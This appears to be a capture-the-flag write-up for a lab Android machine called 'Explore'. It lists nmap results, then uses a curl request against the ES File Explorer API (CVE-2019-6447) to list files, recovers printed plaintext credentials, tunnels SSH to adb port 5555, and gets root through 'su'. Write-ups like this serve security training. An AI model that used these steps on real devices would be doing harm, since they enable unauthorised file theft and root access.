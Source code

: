 # Explore

## Discovery

`nmap` delivers yet again:

```
1900/udp open|filtered upnp
5353/udp open|filtered zeroconf
```

```
2222/tcp  open     ssh     (protocol 2.0)
5555/tcp  filtered freeciv
42135/tcp open     http    ES File Explorer Name Response httpd
44733/tcp open     unknown
59777/tcp open     http    Bukkit JSONAPI httpd for Minecraft game server 3.6.0 or older
```

Googling for the port 59777 tells a different story: `ES File Explorer` serves
all the files over HTTP!

We test with manual urls like `http://10.10.10.247:59777/etc/hosts` and get:

- "Error 404, file not found." when the file / directory doesn't exist
- "FORBIDDEN: No directory listing." on existing directories
- status 200 on existing files

In other words we get file & directory enumeration.

Even more, there is a cve on this app: the "ES File Explorer" has an API with
listing functionalities. We don't need no wordlist!

And there are ready-made scripts, for example [Nehal Zaman][cve-2019-6447-script] made a great
Python script with all the functions:

```python
cmds = ['listFiles','listPics','listVideos','listAudios','listApps','listAppsSystem','listAppsPhone','listAppsSdcard','listAppsAll','getFile','getDeviceInfo']
```

Reading through it, we can actually run a simple curl command:

```bash
curl -X $'POST' -H $'Content-Type: application/json' \
    --data $'{"command": "listFiles"}' \
    $'http://10.10.10.247:59777/'
```

This allows us to list subfolders too and make more precise requests. With this,
we comb the phone and quickly find a picture with credentials:

![][credential-leak-picture]

> kristi Kr1sT!5h@Rp3xPl0r3!

These work on the ssh server and it's enough to recover the user flag at:

> /mnt/sdcard/user.txt

## Escalation

The app `freeciv` is known to open a debugging port for adb: 5555.

It is filtered from the WAN but accessible from localhost.
So we use ssh to create a tunnel from the local port 5555 to the remote port 5555:

```bash
ssh -p 2222 -L 5555:localhost:5555 kristi@explore.htb
```

Then connect with adb:

```bash
adb connect localhost:5555
```

And `adb shell` forwards the connection to the remote port 5555.
And adb can impersonate root:

```bash
x86_64:/ $ id
uid=2000(shell) gid=2000(shell) groups=2000(shell),1004(input),...
x86_64:/ $ su
:/ # id
uid=0(root) gid=0(root) groups=0(root) context=u:r:su:s0
```

We locate the flag with:

```bash
find / -name root.txt
```

> http://10.10.10.247:59777/data/root.txt

[credential-leak-picture]: images/creds.jpg
[cve-2019-6447-script]: https://www.exploit-db.com/exploits/50070
